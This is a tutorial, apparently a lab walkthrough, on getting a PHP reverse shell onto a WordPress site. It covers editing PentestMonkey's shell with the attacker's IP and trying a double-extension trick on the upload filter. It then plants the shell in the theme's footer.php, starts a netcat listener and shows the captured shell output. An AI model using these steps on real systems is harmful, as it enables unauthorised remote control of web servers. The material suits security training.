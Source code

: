   
## Hacking WordPress Sites  
The first thing we would like to test out is see if we can upload a PHP Reverse Shell to the target. This will allow us to upload the script to our target and then run it by accessing the URL in our browser. Let's have some fun learning this new trick!  
  
To get our hands on the PHP-Reverse-Shell script, let's head over to our pals at PentestMonkey;  
https://pentestmonkey.net/tools/web-shells/php-reverse-shell  
  
And we will download the "php-reverse-shell-1.0.tar.gz" from here;  
pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz  
And now that we have that file, let's see if we can unzip it like this;  
```
$ tar xzvf php-reverse-shell-1.0.tar.gz  
php-reverse-shell-1.0/
php-reverse-shell-1.0/COPYING.GPL
php-reverse-shell-1.0/COPYING.PHP-REVERSE-SHELL
php-reverse-shell-1.0/php-reverse-shell.php
php-reverse-shell-1.0/CHANGELOG
```
Now we can open the "php-reverse-shell.php" in any text editor you choose, I personally use (nano php-reverse-shell.php). The only thing we need to change in this file is the IP Address & the Port (optional). So open up that script in your editor and change the IP Address   
to the address of your Kali Machine and then save & close!   
  
Now that we have that setup, let's see if we can upload this shell script to the website. Go to the website, and select the tab "Media". From there, click on "Add New" And click on "Select Files". From there, navigate the window 
to where our php-reverse-shell.php file is located, and double click on that to upload to the website.  
And we get a error;  
"Sorry, this file type is not permitted for security reasons."  
What now? Well, we can copy/paste the shell script in the same directory and play with the new file a little bit. Like so;  
1) Try changing the name itself. (myshell.php.png) and try to upload that!  
*We can see that that did not work for us!*  
2) Let's see if we can upload a random image (go to Google and find one if you don't have one)  
*We are able to upload images to the website!* ~ We can click on the image we just uploaded and it will have a menu popup, highlight the "url" copy and paste that into a new tab. Boom. You have your image!  
3) Open up the "Appearance" -> "Editor" -> "footer" -> Copy/Paste the code directly in that file.  
*NOTE:* Copy the contents of the "footer.php" into a seperate text file so if you screw something up, you can revert back to the original content.  
*Copy/Paste:* Now we can copy/paste the contents of the php-reverse-shell.php into the footer.php section and click on "updated file" in order to save our work.  
3.A) Now that that is there, let's open a new tab and utilize our ncat command like so;  
```
$ nc -nvlp 1234  
```
While that is running, go to your browser and type in;  
10.0.0.48/footer.php  
**PLEASE NOTE:** Replace the 10.0.0.48 with the IP Address of your target!  
And now let's see what happens!  
```
$ nc -nvlp 1234  
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.0.0.48.
Ncat: Connection from 10.0.0.48:58906.
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 05:19:38 up  3:26,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```